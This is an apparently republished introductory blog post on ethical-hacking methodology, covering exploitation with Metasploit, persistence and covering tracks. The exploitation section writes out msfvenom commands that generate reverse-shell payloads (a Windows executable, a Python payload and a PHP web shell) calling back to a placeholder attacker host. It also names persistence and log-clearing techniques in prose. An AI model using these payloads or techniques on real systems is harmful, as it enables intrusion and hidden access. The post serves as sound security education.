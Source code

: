```yaml
---
{"dg-publish":true,"permalink":"/01-consume/articles/thinking-like-a-hacker-part-2/","title":"Thinking Like A Hacker — Part 2","tags":["hacker","ethical-hacker"]}
---
```



# Thinking Like A Hacker — Part 2

## Key Points:
The Ethical Hacker Methodology

When people think about hacking, they usually imagine someone frantically typing at a keyboard, green text flying across the screen (no thanks to Hollywood movies). The reality is far more methodical and complex, and … slow. I began this train of thought in part 1: [https://medium.com/@iamblacklight/thinking-like-a-hacker-part-1-2548de8656f7](https://medium.com/@iamblacklight/thinking-like-a-hacker-part-1-2548de8656f7)

## Let’s continue our dive — R.S.E.M.C

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*hzFJZvrGG0dEJ9u5lmMIPA.jpeg)

[Unsplash](https://unsplash.com/photos/an-abstract-image-of-a-sphere-with-dots-and-lines-nGoCBxiaRO0)

3. **Exploitation / Gaining Access**

If we use the analogy of breaking into a house, one might look for unlocked windows, loose door frames, or ways to pick the lock — you’re searching for a vulnerability to exploit. This is where the work put into enumeration pays off.

Hackers have several “lockpicking” methods (known as attack vectors), some examples:

- Finding systems with default passwords (called credential stuffing)
- Breaking weak passwords (known as brute forcing)
- Exploiting software vulnerabilities
- Manipulating users into giving away their passwords (termed social engineering)

Generally, we can categorize exploitation into manual and automated exploitation.

> Automated exploitation relies on automated tools to identify and exploit vulnerabilities. These tools are designed to scan systems, detect weaknesses, and execute predefined exploits with minimal human intervention. Automated exploitation is noisy (too many indicators of malicious activity happening), it’s mostly followed when stealth/evasion is not a priority.
> 
> Manual exploitation involves a penetration tester identifying vulnerabilities and crafting custom exploits to take advantage of them. It is best for targeted assessments, such as red team engagements or testing critical systems (imagine testing a hospital system and accidentally shutting down life support). It’s more suitable for large-scale vulnerability assessments or routine security checks.

A very common exploitation framework is **Metasploit** by Rapid7**.** It comes natively with Kali Linux.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*KUCqvV5ueYObcuJ2GxrYaQ.png)

Think of Metasploit as the Swiss Army knife of penetration testing. At its core, Metasploit is a collection of tested, ready-to-use tools that security professionals use for penetration testing.

The Core Components:

- **MSFconsole:** This is the main interface where you launch exploits, manage sessions, handle listeners, coordinate your pentesting. Here are some common commands:
```c
search [vulnerability]  # Find relevant exploits
use [exploit path]     # Select an exploit to use
set PAYLOAD [payload]  # Choose what happens after exploitation
set RHOST [IP]        # Set the target
exploit               # Launch the attack
```
- **MSFvenom:** This is the payload generator. With MSFvenom, you can create standalone executables, generate shellcode, craft custom backdoors, build encoded payloads to evade detection. Some common commands:
```c
# Generate a Windows executable payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > payload.exe

# Create a Python-based payload
msfvenom -p python/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > payload.py

# Generate a PHP web payload
msfvenom -p php/reverse_php LHOST=[IP] LPORT=[PORT] -f raw > shell.php
```
- **Meterpreter:** This is the advanced payload that gives you extensive control after exploitation. Every pentester is happy with a successfully spawned meterpreter shell.
- **Auxilary Modules:** These are for reconnaisance.
- **Post-Exploitation Modules:** After gaining access, these modules help with privilege escalation, persistence establishment (more on this soon).

You can read the full documentation here: [https://www.kali.org/tools/metasploit-framework/](https://www.kali.org/tools/metasploit-framework/)

> One thing to note: Never completely rely on a tool, always validate.

4. **Maintaining Access / Persistence**

The first step to post-exploitation is to establish persistence. Persistence refers to the methods attackers use to ensure they can regain access to a compromised system after the initial exploit. This involves creating backdoors, modifying system configurations, or installing malicious software that allows continued access even if the initial entry point is closed/unavailable. This phase is essential for simulating real-world attack scenarios, where attackers aim to maintain long-term access to compromised systems for further exploitation, data exfiltration, or lateral movement.

Here are some example techniques in Windows & Linux environments:

**Windows Persistence Techniques**

- Registry modifications — Adding malicious entries to the Windows Registry to execute payloads at startup.
- Scheduled tasks — Creating scheduled tasks to execute malicious payloads at specific intervals or during system startup.
- DLL hijacking — Replacing legitimate Dynamic Link Libraries (DLLs) with malicious ones to execute code when the application loads the DLL.

Linux Persistence Techniques

- Cron jobs — Adding malicious commands or scripts to cron jobs to execute them at regular intervals or during system startup.
- Systemd service — Creating a custom systemd service to execute a payload at startup.

5. **Covering Tracks**

Covering tracks is the final phase of a penetration test, where the penetration tester aims to remove evidence of their activities to avoid detection. This phase is crucial for maintaining stealth and ensuring that the target remains unaware of the infiltration.

A small caveat here:

> Penetration testing and red teaming are similar but they serve different purposes and involve distinct methodologies. Penetration testing is a focused, goal-oriented assessment designed to identify and exploit vulnerabilities in a specific system, application, or network.
> 
> Red teaming is a broader, adversarial simulation exercise where a team of security professionals (the red team) mimics real-world attackers to test an organization’s detection and response capabilities.

Covering of tracks mainly applies to red teaming engagements. Some common techniques for covering tracks include; clearing logs, removing files/artifacts, timestomping (modifying the timestamps of files to make them appear unchanged or to hide when they were created or modified).

Understanding the five stages of hacking — reconnaissance, scanning & enumeration, exploitation, maintaining access, and covering tracks — is essential for ethical hackers. These stages not only mirror the tactics used by malicious attackers but also provide a structured methodology for simulating real-world threats in a controlled and ethical manner.

Penetration testing should be part of a plan for continuous improvement of an organization’s cyberposture. This approach enables organizations to strengthen their defenses, prioritize remediation efforts, and gradually reduce the surface area for malicious hackers.

I demystify cybersecurity through documenting my journey, accessible content, sharing advice, and discussions. Building a community for a secure digital future.

## More from iamblacklight

## Recommended from Medium

[

See more recommendations

](https://medium.com/?source=post_page---read_next_recirc--43d2e4639e28---------------------------------------)

## Summary:
When people think about hacking, they usually imagine someone frantically typing at a keyboard, green text flying across the screen (no thanks to Hollywood movies). The reality is far more methodical…

---

*Source: [Thinking Like A Hacker — Part 2](https://medium.com/@iamblacklight/thinking-like-a-hacker-part-2-43d2e4639e28)*
